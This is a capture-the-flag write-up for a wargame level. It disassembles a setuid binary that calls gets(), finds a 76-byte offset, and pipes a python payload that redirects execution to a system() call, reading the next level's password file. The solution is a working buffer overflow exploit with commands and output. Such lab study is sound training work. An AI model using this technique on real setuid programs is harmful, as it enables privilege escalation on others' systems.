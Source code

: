 ```shell
$> ls -la
[...]
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
[...]

$> ./level1
input: test
$>

# program only asks for input and nothing happens
```

```shell
$> gdb level1
(gdb) set disassembly-flavor intel
(gdb) disas main
    [...]
    0x08048490 <+16>:    call   0x8048340 <gets@plt>
    [...]

# main contains a call to gets and nothing else
```

```shell
$> objdump -d level1
[...]
08048444 <run>:
    [...]
804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
    [...]
[...]
08048480 <main>:
[...]

# program contains a function named run that calls fwrite and system
```

gets() is a dangerous function because it reads from stdin and ends with a newline.  
So it is not safe because it should be overflowed.  

Let's do a classic overflow attack with gets.  
Use [this](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to found the offset of the EIP.

```shell
$> gdb level1
(gdb) r
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

# to arrive the next instruction (EIP), we need put 76 bytes of data.

$> python -c "print 'a' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)

# 08048444 reverses the order of the bytes, because it is a little endian machine
# Shell is not called but a segmentation fault ...
# execute with pipe is a non-interactive mode so system() is called but shutdown immediately
# to let execute become interactive we can use 'cat -'

$> python -c "print 'a' * 76 + '\x44\x84\x04\x08'" > /tmp/exploit

$> cat /tmp/exploit - | ./level1
Good... Wait what?
input: whoami
level2
input: cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```